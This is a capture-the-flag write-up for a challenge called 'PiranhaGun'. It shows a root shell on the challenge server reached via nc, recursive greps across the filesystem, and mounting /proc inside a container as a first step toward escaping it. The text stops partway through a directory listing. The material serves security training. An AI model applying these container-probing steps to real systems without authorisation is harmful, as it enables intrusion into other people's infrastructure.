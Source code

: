 ```  
The Piranha Gun is a post-Plantera Hardmode ranged weapon that fires a single, returning "piranha" projectile that costs no ammunition.  
`nc 54.178.235.243 10004`  
```  
  
```  
$ nc 54.178.235.243 10004  
bash: cannot set terminal process group (-1): Inappropriate ioctl for device  
bash: no job control in this shell  
bash: /root/.bashrc: Permission denied  
root@ip-172-31-19-201:/home/PiranhaGun# ls  
ls  
README  
```  
  
After connected to the server, there's a README.  
  
```  
root@ip-172-31-19-201:/home/PiranhaGun# cat README  
cat README  
The Piranha Gun can be found in "jungle.chest".  
```  
  
We searched if there's a file or directory with this name by using  
  
`grep -r "jungle.chest" / 2>/dev/null`  
`grep -r "jungle" / 2>/dev/null`  
`grep -r "chest" / 2>/dev/null`  
  
But NO. There's only a directory `/chest`, but it's empty.  
  
After tried something else, we still stucked.  
Then, one of my teammates said he remembered security issue about the `proc` in container.  
After took a look at `ps`, we got a clue.  
  
```  
root@ip-172-31-19-201:/home/PiranhaGun# ps  
ps  
Error, do this: mount -t proc proc /proc  
root@ip-172-31-19-201:/home/PiranhaGun# mount -t proc proc /proc  
mount -t proc proc /proc  
root@ip-172-31-19-201:/home/PiranhaGun# cd /proc  
cd /proc  
root@ip-172-31-19-201:/proc# ls -al  
ls -al  
total 4  
dr-xr-xr-x 128 nobody nogroup               0 Oct 19 05:25 .  
drwxr-xr-x  23 nobody nogroup            4096 Oct 16 13:29 ..  
dr-xr-xr-x   9 root   root                  0 Oct 19 05:26 1  
dr-xr-xr-x   9 root   root                  0 Oct 19 05:26 2  
dr-xr-xr-x   9 root   root                  0 Oct 19 05:26 7  
dr-xr-xr-x   2 nobody nogroup               0 Oct 19 05:26 acpi  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 buddyinfo  
dr-xr-xr-x   4 nobody nogroup               0 Oct 19 05:26 bus  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 cgroups  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 cmdline  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 consoles  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 cpuinfo  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 crypto  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 devices  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 diskstats  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 dma  
dr-xr-xr-x   2 nobody nogroup               0 Oct 19 05:26 driver  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 execdomains  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 fb  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 filesystems  
dr-xr-xr-x   8 nobody nogroup               0 Oct 19 05:26 fs  
-r--r--r--   1 nobody nogroup               0 Oct 19 05:26 interrupts  
```